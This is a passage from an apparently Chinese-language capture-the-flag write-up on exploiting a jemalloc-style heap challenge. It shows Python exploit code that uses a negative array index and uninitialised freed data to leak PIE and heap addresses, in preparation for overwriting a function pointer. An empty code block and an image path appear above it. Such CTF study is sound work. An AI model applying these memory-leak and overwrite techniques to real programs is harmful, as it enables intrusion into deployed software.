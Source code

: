 ```c

```



## 利用

首先我们看下已经使用了的run和我们目标`p_func`在哪里, 

```
size: addr-$heap_base

0x10: 0x6000 
0x40: 0x7000
0x50: 0x8000
0x20: 0xa000
```

我们前面提到过, 其实run并不会指定顺序, 只是malloc触发bin初始化获取到一个run就拿来用, 因此最开始三次malloc, 分别0x10, 0x40, 0x50, 已经被分配了,后续0x18(其实是0x20同一个run)会占一个, 如果出现新的大小就会在后面0xb000的位置补上, 

另外我们看下具体`p_func`的位置:

![image-20210816151902944](https://i.loli.net/2021/08/16/S4GRypxNVuvl6Kd.png)

前面标记的部分是run结构体, 后续0x60开始是第一个region, 也就是`p_func`, 

我们的目标就是覆写这个位置, 

### 数据泄漏

首先利用负数数组越界实现一个数据泄漏, 

通过我们之前提到的位置, `battle(-7)`可以泄漏pie地址,

```python 
	battle(-7)
	ru("Starting battle with ")
	leak = u64(re(6, 2).ljust(8, b'\x00'))
	PIE = leak - 0x4008
	print("pie: ")
	print(hex(PIE))
	slog['PIE'] = PIE 
	sl('2')
```

然后我们注意到另一个点, free以后的数据不会清空, 

我们的chunk结构体0x18大小, 在0x20的run里面, 我们可以先布置这个run内存为`(chunk(free)-chunk(free)-chunk(free)-chunk(free))`, 然后申请一个0x20的name, 但是不写入数据, 于是`(chunk(new)-name(new)-chunk(free)-chunk(free))`, 此时name中没有数据, 也就是原本的chunk的数据, 第一项是指针, 于是也通过battle泄漏出来堆地址, 

```python

	add(0x60, '1' * 0x20) # 0
	add(0x60, '1' * 0x20) # 1

	kill(0)
	kill(1)

	add(0x20, '') # 2 
	battle(2)
	ru("Starting battle with ")
	leak = u64(re(6, 2).ljust(8, b'\x00'))
	heap = leak - 0xb00a
	print("pie: ")
	print(hex(heap))
	slog['heap'] = heap

```
